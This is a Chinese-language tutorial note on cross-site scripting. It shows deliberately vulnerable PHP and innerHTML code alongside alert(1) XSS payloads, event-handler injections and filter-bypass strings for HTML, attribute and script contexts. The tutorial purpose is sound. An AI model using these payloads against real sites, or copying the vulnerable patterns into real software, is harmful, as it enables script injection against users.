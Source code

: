 ## 了解
>XSS（Cross-site scripting） 就代表著攻击者可以在其他人的网站上面执行JavaScript 程序。
```php
<?php
 echo "Hello, " . $_GET['name'];
?>
```
如果访问的是 `index.php?name=<script>alert(1)</script>` 呢？输出的内容就会变成：Hello，`<script>alert(1)</script>`
`<script>`标签里的内容将被视为JavaScript代码来执行，屏幕上会弹出一个提示窗口，这意味着可以在其他人的网站中执行JavaScript代码。

```html
<div>
  Hello, <span id="name"></span>
</div>
<script>
  const qs = new URLSearchParams(window.location.search)
  const name = qs.get('name')
  document.querySelector('#name').innerHTML = name
</script>
```
通过`index.html?name=<script>alert(1)</script>`的方式可以插入任何我们想要的内容，但这次是通过前端使用`innerHTML`的方式将我们的 payload 添加到页面上。
两者之间的区别在于前面的例子实际上不会触发`alert`，原因是在使用`innerHTML`时，插入的`<script>`标签没有效果，因此攻击者必须调整XSS payload才能执行代码。


- localStorage :
- Cookie：`cookieStore` API / document.cookie /fetch()与其他api交互

## 执行js的方式
1. `<script>alert(1)</script>`
2. `Inline event handle` 在HTML元素中内联（内嵌）的事件处理程序
	1. `<img src="not_exist" onerror="alert(1)">`
	2. `<button onclick="alert(1)">拜託點我</button>`
	3. `<svg onload="alert(1)">`
	4. `<svg/onload=alert(1)>`  
		1. html属性中`"`非必要，没有空格就可以拿掉
		2. 标签跟属性间的空格可以用`/`替代
3. `<a href=javascript:void(0)>Link</a>`

### 常用的event handler
1. onerror
2. onload
3. onfocus
4. onblur
5. onanimationend
6. onclick
7. onmouseenter

## 常见情景

### 注入html
> 直接給你一塊空白的 HTML 讓你去操作，因此可以直接寫入任何想要的元素
```php
<?php
 echo "Hello, <h1>" . $_GET['name'] . '</h1>';
?>
```

```html
<div>
  Hello, <span id="name"></span>
</div>
<script>
  const qs = new URLSearchParams(window.location.search)
  const name = qs.get('name')
  document.querySelector('#name').innerHTML = name
</script>
```
`<script>alert(1)</script>`
#### 防御
>把使用者輸入中的 `<` 跟 `>` 全部取代掉，它就沒有辦法插入新的 HTML 標籤，就沒辦法做到任何事情。


### 注入属性
```html
<div id="content"></div>
<script>
  const qs = new URLSearchParams(window.location.search)
  const clazz = qs.get('clazz')
  document.querySelector('#content').innerHTML = `
    <div class="${clazz}">
      Demo
    </div>
  `
</script>
```
輸入的內容是做為某個屬性的值，被包在屬性裡面的：
我们可以使用`"<script>alert(1)</script>`来闭合标签，再插入js语句
```html
<div class=""><script>alert(1)</script>  
Demo  
</div>
```

#### `<>`被过滤
`" tabindex=1 onfocus="alert(1)" x="`
闭合`”`后使用event handler
```html
<div class="" tabindex=1 onfocus="alert(1)" x="">
  Demo
</div>
```

#### `' " `被过滤
>通过空格和`/`新增属性
```html
document.querySelector('#content').innerHTML = `
  <div class=${clazz}>
    Demo
  </div>
```
payload:
`/onclick=alert(1)`
```html
<div class=12 / onclick=alert(1)>
  Demo
</div>
```
### 注入javascript
```html
<script>
  const name = "<?php echo $_GET['name'] ?>";
  alert(name);
</script>
```

## 参考链接
1. https://web.archive.org/web/20100723152801/http://blogs.msdn.com/b/dross/archive/2009/12/15/happy-10th-birthday-cross-site-scripting.aspx
2. https://owasp.org/www-pdf-archive/OWASP-AppSecEU08-Dabirsiaghi.pdf
3. https://github.com/mandatoryprogrammer/xsshunter-express
4. https://hackerone.com/reports/948929
5. [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)